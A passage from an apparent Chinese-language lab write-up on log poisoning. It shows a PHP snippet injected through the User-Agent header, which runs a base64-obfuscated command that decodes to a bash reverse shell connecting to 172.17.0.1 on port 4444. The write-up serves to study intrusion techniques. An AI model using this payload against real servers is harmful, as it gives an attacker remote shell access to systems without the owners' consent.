 ![](./images/image-132.png)

成功执行代码

这里需要注意下，似乎只能使用反引号来进行命令执行，其他的会导致整个**log**崩溃，从而需要重启**docker**

在**User-Agent**插入以下代码

```
<?php echo `printf KGJhc2ggPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS80NDQ0IDA+JjEpICY=|base64 -d|bash`;?>
```

![](./images/image-133.png)

## Own app
